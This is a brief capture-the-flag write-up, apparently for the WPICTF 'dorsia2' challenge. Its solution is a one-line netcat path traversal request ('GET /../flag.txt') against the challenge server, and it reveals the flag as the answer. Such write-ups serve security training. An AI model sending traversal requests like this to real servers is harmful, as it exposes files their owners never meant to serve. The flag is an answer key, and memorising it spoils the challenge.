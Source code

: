 #### Challenge:

![dorsia.png](./dorsia.png ":ignore")

http://dorsia2.wpictf.xyz:31337/index.html or `31338` or `31339`

---

#### Solution:

```bash
echo 'GET /../flag.txt' | nc dorsia2.wpictf.xyz 31337
```

---

<details><summary>FLAG:</summary>

```
WPI{1_H4VE_2_return_SOME_VIDE0TAP3S}
```

</details>
<br/>
